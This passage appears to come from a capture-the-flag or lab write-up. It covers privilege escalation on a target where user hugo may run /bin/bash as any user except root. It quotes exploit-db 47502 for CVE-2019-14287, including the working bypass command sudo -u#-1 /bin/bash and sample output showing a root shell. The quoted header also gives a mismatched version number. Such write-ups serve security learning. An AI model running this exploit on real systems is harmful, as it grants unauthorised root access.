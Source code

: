 I also did a privilege check for `hugo` using `sudo -l` and found that this user indeed had `sudo` rights, and some interesting privileges.  I did a search for `sudo (ALL, !root) /bin/bash` and found an exploit on exploit-db which explained a privilege bypass method where I could get around the restriction on running commands as root \(`!root`\) by tricking sudo by giving the user id number `#-1`.

 [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

> Description : Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv -u\#-1 returns as 0 which is root's id and /bin/bash is executed with root permission

```python
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.2.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''
Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
Proof of Concept Code :

How to use :
```